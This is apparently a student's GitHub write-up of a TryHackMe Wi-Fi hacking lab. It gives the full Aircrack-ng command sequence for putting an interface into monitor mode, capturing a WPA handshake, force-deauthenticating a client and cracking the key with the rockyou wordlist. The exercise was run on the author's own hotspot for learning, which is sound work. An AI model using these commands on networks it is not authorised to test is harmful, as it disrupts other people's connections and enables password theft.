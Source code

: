 ﻿# Wi-Fi Hacking 101 — Practical Exercise

## Overview
This exercise was completed following the [TryHackMe Wi-Fi Hacking 101 room](https://tryhackme.com/room/wifihacking101).  
It demonstrates the process of capturing WPA handshakes and performing a dictionary attack using Aircrack-ng and related tools in a controlled environment.

> Disclaimer: All activities were conducted on personal networks and are intended solely for ethical, educational use.

---

## Tools Used

- Kali Linux
- Aircrack-ng Suite (airmon-ng, airodump-ng, aireplay-ng, aircrack-ng)
- rockyou.txt wordlist
- Personal mobile hotspot for testing
- Personal iPad for testing

---

## Methodology

### 1. Wordlist Preparation  

Generated random passwords from the rockyou.txt wordlist, filtering for minimum length:

head -n 10000 /usr/share/wordlists/rockyou.txt | awk 'length($0) >= 8' | shuf -n 5

Generated the password 'richard1', which was used as the hotspot password.

### 2. Preparing Wireless Interface

Enabled Monitor Mode:

airmon-ng start wlan0

Checked Wireless Configuration:

iwconfig

### 3. Capturing Network Data

Used airodump-ng to identify the target network and capture handshake data:

airodump-ng wlan0

Filtered by BSSID and channel:

airodump-ng --channel 6 --bssid <MAC_ADDRESS> --write handshake wlan0


### 4. Forcing Handshake Capture

Forced re-authentication using aireplay-ng:

aireplay-ng --deauth 5 -a <BSSID> -c <DEVICE_MAC> wlan0

Successfully captured WPA handshake.

### 5. Cracking the Password

Performed dictionary attack with aircrack-ng:

aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt

Key successfully found: richard1

---

## Takeaways

- Understanding WPA Handshake Capture.
- Practical use of Aircrack-ng Suite for Wireless Netowrk Auditing.
- The importance of using strong passwrods to prevent dictionary-based attacks.

## Conclusion

This exercise provided practical experience with Wi-Fi network security assessment techniques and highlighted common vulnerabilities in weak password configurations.

## Future Improvements

- Explore advanced WPA/WPA2 cracking techniques  
- Document attempts with custom wordlists  
- Integrate findings into broader wireless security audit reports

---

## Author
This project was completed as part of ongoing cybersecurity skill development by Monika Swiergon, Bachelor of Information Technology student at RMIT University.

